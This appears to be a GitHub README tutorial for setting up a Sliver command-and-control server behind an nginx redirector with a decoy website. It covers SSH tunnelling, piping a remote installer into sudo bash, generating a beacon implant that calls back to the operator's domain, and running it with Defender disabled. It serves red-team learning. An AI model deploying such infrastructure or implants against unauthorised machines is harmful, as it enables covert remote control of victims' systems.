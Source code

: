 # Simple C2 Redirector Infrastructure
Simple C2 Path Redirector with nginx to help learn the basics of C2 infrastructure.

Requirements:
* (2) Ubuntu VMs in the cloud with **at least** 1 CPU and 2 GB RAM each
* (1) Domain

<img width="772" height="366" alt="image" src="https://github.com/user-attachments/assets/25eeb7de-c954-4065-889c-ce0ad9905e93" />

# 1. Create VMs in Cloud
First create two VMS in your favorite Cloud service (AWS, Azure, etc):  
* Redir-VM - Will be exposed to the internet and serve as the *fake website* using nginx   
* C2-VM - Will be your C2 (in this case Sliver) and NOT exposed to the internet at all

These two VMs will be in the **SAME private network** with the following network configs.  
**C2-VM**:
- Create in local network private network
- NO Public IP or ports open to the Internet
- Make sure to create an SSH key for these VMs

**Redir-VM** (You can change 8443 to whatever port but change throughout future steps if you do):  
- Inbound  
   - 22 to only your IP(s)  
   - 80 to any IP  
   - 443 to any IP  
   - 8443 to any IP
- Outbound  
    - 80 to any IP  
    - 443 to any IP  
    - 8443 to any IP   

Once you get your public IP for Redir-VM, make an *A-record* DNS entry to your domain and the public IP.


# 2. Setup Redir-VM
_Perform the following commands on Redir-VM unless stated otherwise._

First lets configure the redirector which will host a fake website using nginx and when a certain path is given, it will redirect to the C2 server.
```
sudo apt update && sudo apt upgrade
sudo apt-get install -y nginx certbot net-tools
sudo systemctl stop nginx
sudo certbot certonly --register-unsafely-without-email -d <www.youdomain.com>
```
_Note: for certbot, enter [1] then [y] when prompted_  
Create your fake website in _/var/www/html_ by changing _index.html_ to your own code or use the one in the repo and change the wording a bit to make sense for your domain.

Create your redirector in _/etc/nginx/sites-available_ by adding the _default_ file from the repo to replace the one there.
CHANGE _secretpath_ to something custom, make sure its random looking and long. so something like:
```
  location /ajisdfYUVSbgseoznauitrcbXBWDG {
                proxy_pass https://<C2-ip>:443;
        }
```
Start up nginx
```
sudo systemctl start nginx
```

Upload your SSH key to Redir-VM so you can connect to C2-VM through SSH  
From your host to Redir-VM:
```
scp -i <yourSSH-.pem-file> <yourSSH-.pem-file> <user>@<Redir-VM-IP>:/home/<user>/.ssh/id_rsa
```
Chmod 400 to the SSH key on Redir-VM. 
```
chmod 400 ~/.ssh/<your-private-key>
```
Copy over the same SSH key to the C2 to do reversee SSH connections in the next step  
From Redir-VM to C2-VM:
```
scp /home/<user>/.ssh/id_rsa <user>@<c2-VM-IP>:/home/<user>/.ssh/id_rsa
```

# 3. Setup C2-VM

_Perform the following commands on C2-VM unless stated otherwise. Make sure the SSH key is on C2-VM from previous step in order to perform reverse SSH connection._

Setup SSH reverse connection from C2-VM to Redir-VM in order to reach the internet and download Sliver.  
This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session.
```
ssh -D 1080 -q -N <user>@<Redir-VM-PRIVATE-IP>
```
*Note: This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session*

Test SSH reverse connection by using curl with socks5, it should return the IP of Redir-VM's public IP.
```
curl --socks5-hostname 127.0.0.1:1080 ifconfig.io
```
Install your C2 using socks5 (in this case Sliver).
```
curl --socks5-hostname 127.0.0.1:1080 https://sliver.sh/install|sudo bash
```

Once it finishes installed, exit or cancel the _ssh -D_ command with _Ctrl + C_ in the terminal.


# 4. Configure Your C2
Again, this will be using sliver so modify steps to your C2 and we will be using defaul configs since this is not a tutorial on bypassing EDR.
Use Sliver's latest [Wiki](https://sliver.sh/docs?name=Compile+from+Source) in case specific configs change.  

Confirm Sliver is installed (running as sudo to use HTTPS, screen is optional).
```
sudo su
screen -S sliver-session
sliver
```

Generate a beacon and start HTTPS listener.
```
generate beacon --http <yourDomain>:8443/<yourSecretRedirPath> --save yourBeacon.exe

https
```

Transfer over payload (yourBeacon.exe) to a machine an run it (Make sure Defender is turned off if using default configs).
```
On C2-VM:
chmod 777 <beacon.exe-location>

On Redir-VM: 
scp -i <SSH-key> <user>@<C2-VM-IP>:/<beacon.exe-location> .

On host to get it from Redir-VM:
scp -i <SSH-key> <user>@<Redir-VM-public-IP>:/<beacon.exe-location> .
```


